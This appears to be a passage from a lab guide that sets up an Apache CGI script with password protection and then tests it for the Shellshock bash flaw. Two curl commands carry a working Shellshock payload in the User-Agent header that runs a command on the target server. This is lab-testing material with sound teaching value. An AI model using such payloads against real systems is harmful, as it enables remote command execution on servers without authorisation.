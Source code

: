 Enable the configuration:
```
a2enconf cgi-auth
```

Create password file (if not already created):
```
htpasswd -c /etc/apache2/htpasswd user1
```

Restart Apache:
```
systemctl restart apache2.service
```

Access the script:
```
http://192.168.1.36/cgi-bin/test.cgi
```

### Test Bash Shellshock Vulnerability (Example for Lab Testing Only)
```
curl -H "User-Agent: () { foo; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://192.168.1.40/cgi-bin/test.cgi
```

```
curl -u user1:123 -H "User-Agent: () { foo; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://192.168.1.22/cgi-bin/test.cgi
```
